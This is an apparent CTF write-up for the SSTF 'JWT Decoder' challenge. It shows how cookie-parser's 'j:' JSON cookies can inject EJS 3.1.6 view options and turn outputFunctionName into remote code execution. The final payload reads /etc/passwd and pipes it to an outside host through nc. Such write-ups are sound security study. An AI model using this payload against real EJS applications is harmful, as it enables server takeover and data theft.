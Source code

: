 I participated in the CTF called sstf after 5 months. Today, I wrote that how to solve a JWT Decoder.

```zsh
~/Downloads/prob
❯ tree -I "node_modules"
.
├── Dockerfile
├── docker-compose.yml
├── flag.txt
└── server
    ├── app.js
    ├── nc
    ├── package-lock.json
    ├── package.json
    └── view
        └── index.ejs

2 directories, 8 files

~/Downloads/prob
❯
```
They provided the file as above.

```json
{
  "dependencies": {
    "cookie-parser": "^1.4.6",
    "ejs": "^3.1.6",
    "express": "^4.17.3"
  }
}
```
And when i check the package.json, I could know to use ejs 3.1.6 version. Already many researcher know about how to trigger an RCE in ejs environment. When the ejs parser is working, it make a javascript code as dynamic and then execute it. At the time, there are some gadgets. this gadget is outputFunctionName and destructuredLocals.

While making javascript code, it use after get a value in opts object. But, Normally If you want to pollute a value of opts.outputFunctionName, A Prototype Pollution vulnerability must exist. But there is no.

```javascript
        viewOpts = data.settings['view options'];
        if (viewOpts) {
          utils.shallowCopy(opts, viewOpts);
        }
// https://github.com/mde/ejs/blob/v3.1.6/lib/ejs.js#L473L476
```
I found that using the utils.shallowCopy() method in the EJS code to overwrite the value of data.settings.view.options with the properties of the opts object.

```javascript

const express = require('express');
const cookieParser = require('cookie-parser');
const path = require('path');
const app = express();
const PORT = 3000;

app.use(cookieParser());
app.set('views', path.join(__dirname, "view"));
app.set('view engine', 'ejs');

app.get('/', (req, res) => {
    let rawJwt = req.cookies.jwt || {};

    try {
        let jwtPart = rawJwt.split('.');

        let jwtHeader = jwtPart[0];
        jwtHeader = Buffer.from(jwtHeader, "base64").toString('utf8');
        jwtHeader = JSON.parse(jwtHeader);
        jwtHeader = JSON.stringify(jwtHeader, null, 4);
        rawJwt = {
            header: jwtHeader
        }

        let jwtBody = jwtPart[1];
        jwtBody = Buffer.from(jwtBody, "base64").toString('utf8');
        jwtBody = JSON.parse(jwtBody);
        jwtBody = JSON.stringify(jwtBody, null, 4);
        rawJwt.body = jwtBody;

        let jwtSignature = jwtPart[2];
        rawJwt.signature = jwtSignature;

    } catch(error) {
        if (typeof rawJwt === 'object') {
            rawJwt.error = error;
        } else {
            rawJwt = {
                error: error
            };
        }
    }
    res.render('index', rawJwt);
});

app.use(function(err, req, res, next) {
    console.error(err.stack);
    res.status(500).send('Something wrong!');
});

app.listen(PORT, (err) => {
    console.log(`Server is Running on Port ${PORT}`);
});
```
This is the challenge code. It was found that the value of the cookie was taken, divided by ".", and the values of the header, body, and signature of JWT were put into an object called rawJwt. However, we cannot insert Object because all values are converted back to strings after the strings are converted to JSON type.

Anyway, I could know that the rawJwt object is created and passed as the second argument to the render() method.

```javascript
exports.render = function (template, d, o) {
  var data = d || {};
  var opts = o || {};

  // No options object -- if there are optiony names
  // in the data, copy them to options
  if (arguments.length == 2) {
    utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA);
  }

  return handleCache(opts, template)(data);
};
// https://github.com/mde/ejs/blob/v3.1.6/lib/ejs.js#L413L424
```
The second argument to the render() method goes into the data object. So we have to insert an user-defined object to rawJwt object.

```javascript
function JSONCookie (str) {
  if (typeof str !== 'string' || str.substr(0, 2) !== 'j:') {
    return undefined
  }

  try {
    return JSON.parse(str.slice(2))
  } catch (err) {
    return undefined
  }
}

/**
 * Parse JSON cookies.
 *
 * @param {Object} obj
 * @return {Object}
 * @public
 */

function JSONCookies (obj) {
  var cookies = Object.keys(obj)
  console.log(cookies)
  var key
  var val
  console.log(cookies)
  for (var i = 0; i < cookies.length; i++) {
    key = cookies[i]
    val = JSONCookie(obj[key])

    if (val) {
      obj[key] = val
    }
  }
  return obj
}
// https://github.com/expressjs/cookie-parser/blob/master/index.js#L83L118
```
We generally cannot insert object data into rawJwt objects. However, as a result of analyzing the code of the cookie-parser module, I was able to find out the JsonCookie () function. The JsonCookie () function converts the argument value to JSON in the try statement if it starts with `j:` when the value of the argument is an object.

```json
j:{
  "settings":{
    "view options":{
      "outputFunctionName":"x;process.mainModule.require('child_process').execSync('cat /etc/passwd | nc pocas.kr 9999')//"
    }
  }
}
```
I wrote the payload as above

![](https://cdn.discordapp.com/attachments/966582609377361920/1011607890169167892/2022-08-23_21.08.25.png)

When I sent the payload, I could see that RCE occurred as above.
